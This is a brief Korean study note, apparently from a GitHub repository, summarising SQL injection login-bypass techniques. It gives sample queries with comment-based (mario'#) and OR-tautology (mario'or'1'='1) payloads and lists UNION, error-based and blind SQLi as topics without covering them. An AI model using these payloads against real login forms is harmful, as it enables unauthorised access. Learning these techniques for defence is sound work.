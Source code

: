 # SQL Injection 공격 기법 정리

           

# 식별 & 인증 동시

가정한 query
```
select * from member where id='' and pass=''
```

## \# 
아이디에 주석처리할 수 있는 문구를 넣어 인증을 우회하는 방식.
```
id : mario'#
```
```
select * from member where id='mario'#' and pass='1234'
```

## or
or 논리 연산자를 id 입력칸에 넣어 논리 연산자의 우선순위를 이용해 공격하는 방식이다. 
```
id : mario'or'1'='1
```
```
select * from member where id='mario'or'1'='1' and pass='1234'
```
</br>
</br>
</br>

# 식별 & 인증 분리
가정한 query
```
select pass from member where id=''
```
가정한 password 유효성 검사 구문
```
if( db_pass == userinput_pass ){     
    로그인 성공    
}else      
```

## or
```
id : mario' or '1'='1
```
```
select pass from member where id='mario' or '1'='1'
```
→ 모든 데이터 출력
</br>
</br>
</br>




UNION SQLi   
Error Based SQLi   
Blind SQLi   
